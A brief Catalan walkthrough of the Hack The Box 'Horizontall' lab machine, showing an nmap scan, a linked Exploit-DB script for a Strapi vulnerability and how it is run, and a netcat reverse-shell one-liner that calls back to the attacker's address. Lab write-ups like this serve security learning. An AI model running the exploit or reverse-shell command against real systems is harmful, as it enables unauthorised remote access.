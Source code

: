 Ens afegim la ip 10.10.11.105 al fitxer host

10.10.11.105 horizontall.htb

nmap:

nmap -p- -sV 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 18:35 CET
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.056s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Wappalyzer diu:

nginx 1.14.0

COPIEM L'SCRIPT EN PYTHON QUE UTILITZA UNA VULNERAVILITAT DE strapi

https://www.exploit-db.com/exploits/50239

python script.py http://api-prod.horizontall.htb/

COMANDA PER OBRIR UN TERMINAL REMOT CAP AL NOSTRE HOST:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.18 3535 >/tmp/f
